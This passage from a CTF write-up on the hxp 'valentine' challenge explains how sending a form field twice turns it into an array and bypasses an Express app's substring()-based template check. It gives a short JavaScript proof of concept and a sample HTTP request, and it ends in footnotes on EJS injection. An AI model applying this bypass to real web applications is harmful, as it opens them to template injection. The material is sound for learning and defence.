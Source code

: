 Ok, so... where is the bug?

## Exploitation

To investigate the issue with a better perspective, I added inside the source code some debug print statements that show us the state of the user-supplied input before any key function. Then I rebuilt the docker image and started playing around with the parameters we can use.

### substring() bypass

Our first effort was trying to bypass the security controls imposed by the server and be able to write arbitrary data inside a template.

One of my teammates noticed that by inserting twice the `tmpl` field inside the HTTP body, it was possible to pass to the server an array instead of a string, completely bypassing the security checks performed using the `substring()` method.

{: .bug }
>`Substring()` is part of the `string` prototype and can be used only on `string` variables. In our case, however, we can pass to the method an `array`, forcing the `if` condition to result always `false`.

PoC:

```js
var tmpl = [ '<%= asd %>', '<%= asd %>' ]
var i
while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
	  console.log('Caught!')
      return;
    }
  }
console.log('bypassed')
```

![]({{page.screenshots}}valentine4.png)

HTTP request: 
```
POST /template
Host: 127.0.0.1:9086
Content-Type: application/x-www-form-urlencoded

tmpl=<%= name %>&tmpl=<%= name %>
```

Server response:
```
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 32
ETag: W/"20-AGcAsG/itS23B2siUG6nl7RRo0A"
Date: Fri, 10 Mar 2023 20:27:20 GMT
Connection: close

Failed to write Valentine's card
```


[^1]: [https://ejs.co/#docs](https://ejs.co/#docs )
[^2]: [https://ejs.co/#docs](https://ejs.co/#docs)
[^3]: [https://expressjs.com/en/api.html#res.render](https://expressjs.com/en/api.html#res.render)
[^4]: [https://snyk.io/blog/fixing-ejs-rce-vuln/](https://snyk.io/blog/fixing-ejs-rce-vuln/)
[^5]: [https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data](https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data)
[^6]: [https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/](https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/)
[^7]: [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
[^8]: [https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x](https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x)
[^9]: [https://hxp.io/blog/101/hxp-CTF-2022-valentine/](https://hxp.io/blog/101/hxp-CTF-2022-valentine/)